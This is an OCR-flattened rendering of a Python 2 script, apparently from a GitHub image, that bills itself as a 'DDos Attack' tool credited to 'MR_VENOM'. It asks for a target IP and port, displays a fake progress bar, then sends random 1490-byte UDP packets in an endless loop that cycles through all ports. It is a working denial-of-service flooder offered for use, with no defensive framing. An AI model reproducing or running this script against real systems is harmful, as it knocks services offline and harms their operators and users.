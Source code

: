 # import-sys-import-os-import-time-import-socket-import-random-Code-Time-from-datetime-import-datetim
import sys import os import time import socket import random #Code Time from datetime import datetime now = datetime.now() hour = now.hour minute = now.minute day = now.day month = now.month year = now.year  ############## sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) bytes = random._urandom(1490) #############  os.system("clear") os.system("figlet DDos Attack") print print ("Author   : MR_VENOM") print "You Tube : https://www.youtube.com/c/Ayub Gaming12" print "github   : https://github.com/mrvenom12" print "Facebook : https://www.facebook.com/ayub.gaming.3" print ip = raw_input("IP Target : ") port = input("Port       : ")  os.system("clear") os.system("figlet Attack Starting") print "[                    ] 0% " time.sleep(5) print "[=====               ] 25%" time.sleep(5) print "[==========          ] 50%" time.sleep(5) print "[===============     ] 75%" time.sleep(5) print "[====================] 100%" time.sleep(3) sent = 0 while True:      sock.sendto(bytes, (ip,port))      sent = sent + 1      port = port + 1      print "Sent %s packet to %s throught port:%s"%(sent,ip,port)      if port == 65534:        port = 1
